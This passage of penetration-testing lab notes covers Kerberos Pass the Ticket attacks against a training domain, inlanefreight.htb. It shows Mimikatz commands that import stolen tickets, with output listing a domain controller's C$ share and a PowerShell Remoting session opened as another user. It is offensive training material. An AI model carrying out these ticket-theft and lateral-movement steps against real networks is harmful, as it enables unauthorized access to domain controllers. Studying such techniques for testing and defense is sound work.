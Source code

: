```cmd-session
C:\tools> mimikatz.exe 
mimikatz # privilege::debug
mimikatz # kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"
```

```
c:\tools> dir \\DC01.inlanefreight.htb\c$
Directory: \\dc01.inlanefreight.htb\c$

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---         6/4/2022  11:17 AM                Program Files
d-----         6/4/2022  11:17 AM                Program Files (x86)

<SNIP>
```

### <mark class="hltr-orange">Pass The Ticket with PowerShell Remoting (Windows)</mark>

[PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2) allows us to run scripts or commands on a remote computer. Administrators often use PowerShell Remoting to manage remote computers on the network. Enabling PowerShell Remoting creates both HTTP and HTTPS listeners. The listener runs on standard port TCP/5985 for HTTP and TCP/5986 for HTTPS.

To create a PowerShell Remoting session on a remote computer, you must have administrative permissions, be a member of the Remote Management Users group, or have explicit PowerShell Remoting permissions in your session configuration.

Suppose we find a user account that doesn't have administrative privileges on a remote computer but is a member of the Remote Management Users group. In that case, we can use PowerShell Remoting to connect to that computer and execute commands.

#### <mark class="hltr-grey">Mimikatz - PowerShell Remoting with Pass the Ticket</mark>

To use PowerShell Remoting with Pass the Ticket, we can use Mimikatz to import our ticket and then open a PowerShell console and connect to the target machine. Let's open a new `cmd.exe` and execute mimikatz.exe, then import the ticket we collected using <mark class="hltr-green">kerberos::ptt</mark>. Once the ticket is imported into our cmd.exe session, we can launch a PowerShell command prompt from the same cmd.exe and use the command <mark class="hltr-green">Enter-PSSession</mark> to connect to the target machine.

```cmd-session
C:\tools> mimikatz.exe
mimikatz # privilege::debug
mimikatz # kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"

mimikatz # exit
Bye!

c:\tools>powershell
Windows PowerShell
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\tools> Enter-PSSession -ComputerName DC01
[DC01]: PS C:\Users\john\Documents> whoami
inlanefreight\john
[DC01]: PS C:\Users\john\Documents> hostname
DC01
[DC01]: PS C:\Users\john\Documents>
```
